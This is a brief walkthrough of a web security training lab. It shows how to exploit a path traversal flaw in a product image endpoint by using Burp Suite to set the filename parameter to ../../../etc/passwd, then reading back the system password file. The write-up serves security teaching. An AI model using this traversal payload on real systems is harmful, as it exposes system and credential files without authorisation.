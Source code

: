 This lab contains a path traversal vulnerability in the display of product images.

To solve the lab, retrieve the contents of the /etc/passwd file.


✅ Steps

Open the lab and intercept a request for a product image in Burp Suite:
GET /image?filename=31.jpg

Send the request to Repeater.

In Repeater, modify the filename parameter:
../../../etc/passwd

Final request:
GET /image?filename=../../../etc/passwd
Click Send, and check the Response tab.

If successful, the response will contain:
root:x:0:0:root:/root:/bin/bash

✅ Once /etc/passwd is displayed, the lab is solved.

